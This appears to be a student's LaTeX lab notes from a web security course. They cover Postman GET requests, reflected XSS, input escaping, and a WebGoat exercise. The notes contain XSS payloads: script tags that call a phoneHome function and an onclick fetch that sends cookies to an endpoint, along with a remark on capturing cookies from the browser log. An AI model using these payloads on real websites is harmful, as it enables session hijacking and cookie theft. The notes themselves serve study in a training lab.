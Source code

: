 \documentclass[a4paper, 10pt, titlepage]{article}
\begin{document}
\newpage
\section{Laboratory 3}
\subsection{Postman}
Application to make GET requests with parameters. For example in \textit{www.bing.com} you can add a key, which is the name of the parameter, called \textit{q}, and the value \textit{xss}: the request sent is: \textit{https://www.bing.com/search?q=xss}.
\subsection{XSS Reflected scripting}
The XSS reflected scripting does not alterate the server data, it just show the changes based on the request.
The XSS scripts can be avoided by sanitizing the text in input. For example in a Python code this is done by using the \textit{escape()} function.
\subsection{WebGoat - XSS}
In the search field:
\begin{lstlisting}
	<script>console.log(webgoat.customjs.phoneHome() ) </script>
\end{lstlisting}
or:
\begin{lstlisting}
	<script>webgoat.customjs.phoneHome()</script>
\end{lstlisting}
because the function makes the alert itself.
\subsection{Homework 3}
	See the linked PDF for more informations about it. 
\subsubsection{After the correction}
From the javascript log in the browser it is possible to get the cookie rapidly. The exercise 3 could have been done also by pressing a button to change page or just to fetch the result. In this last case just use:
\begin{lstlisting}
	onclick("fetch('secret?cookies='.concat(x)")
\end{lstlisting}

\newpage
\section{Laboratory 4}
\end{document}
